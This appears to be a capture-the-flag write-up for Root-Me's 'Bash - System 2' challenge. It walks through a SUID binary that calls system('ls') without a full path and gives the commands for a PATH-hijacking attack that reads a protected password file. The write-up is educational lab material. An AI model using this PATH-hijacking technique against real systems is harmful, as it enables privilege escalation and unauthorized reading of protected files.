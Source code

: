 ### Challenge Documentation: Bash - System 2

**Category:** Root-Me / App-Script  

**Link:** [Bash - System 2](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-2)

#### **Objective**
The goal of this challenge is to exploit a vulnerable SUID binary to access the hidden password file located at `/challenge/app-script/ch12/.passwd`.

### **1. Initial Setup**

The challenge provides SSH credentials to access the remote server:
- **Host**: `challenge02.root-me.org`  
- **Port**: `2222`  
- **Username**: `app-script-ch12`  
- **Password**: `app-script-ch12`  

##### **Connection Command**:
```bash
ssh -p 2222 app-script-ch12@challenge02.root-me.org
```

### **2. File Analysis**

Upon logging in, analyze the challenge directory to identify the files:
```bash
ls -l /challenge/app-script/ch12/
```

**Output:**
```
total 16
-r-sr-x--- 1 app-script-ch12-cracked app-script-ch12 7252 Dec 10  2021 ch12
-r--r----- 1 app-script-ch12-cracked app-script-ch12  187 Dec 10  2021 ch12.c
```

### **3. Understanding the Vulnerability**

The provided `ch12.c` source code contains the following:
```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
 
int main(){
    setreuid(geteuid(), geteuid());
    system("ls -lA /challenge/app-script/ch12/.passwd");
    return 0;
}
```

#### **Analysis**:
- The `setreuid(geteuid(), geteuid());` call allows the program to execute with **elevated privileges** due to the SUID bit.
- The `system()` function executes the `ls` command without specifying the full path.
- This creates a **command injection opportunity** by hijacking the `ls` command using the `PATH` environment variable.

### **4. Exploitation Steps**

The goal is to replace the `ls` command with a malicious script that uses `cat` to print the contents of `.passwd`.

#### **Step 1: Create a Fake `ls` Script**

Create a directory in `/tmp` to store the malicious `ls` script:
```bash
mkdir /tmp/get-flag
```

**Note**: If the directory already exists, you should change the name `get-flag` to avoid conflicts.

Create the fake `ls` script that uses `cat` to display the `.passwd` file:
```bash
echo '/bin/cat /challenge/app-script/ch12/.passwd' > /tmp/get-flag/ls
```

Make the script executable:
```bash
chmod +x /tmp/get-flag/ls
```

#### **Step 2: Modify the `PATH` Environment Variable**

Prepend the directory containing the fake `ls` script to the `PATH` variable:
```bash
export PATH=/tmp/get-flag:$PATH
```

This ensures that the `system("ls ...")` call in the binary executes **our fake `ls` script** instead of the system's `ls`.

#### **Step 3: Run the SUID Binary**

Execute the `ch12` binary:
```bash
./ch12
```

### **5. Output**

The binary runs our fake `ls` script, which uses `cat` to print the contents of the `.passwd` file. The output reveals the challenge flag:
```
***************************
```

### **6. Summary of Commands**

Here is the complete set of commands used to solve the challenge:
```bash
ssh -p 2222 app-script-ch12@challenge02.root-me.org

# Create the fake 'ls' script
mkdir /tmp/get-flag
echo '/bin/cat /challenge/app-script/ch12/.passwd' > /tmp/get-flag/ls
chmod +x /tmp/get-flag/ls

# Modify the PATH variable
export PATH=/tmp/get-flag:$PATH

# Run the SUID binary
./ch12
```

### **7. Conclusion**

By exploiting the insecure use of `system()` and manipulating the `PATH` environment variable, we hijacked the `ls` command to execute our custom script. This allowed us to display the hidden password file's contents.
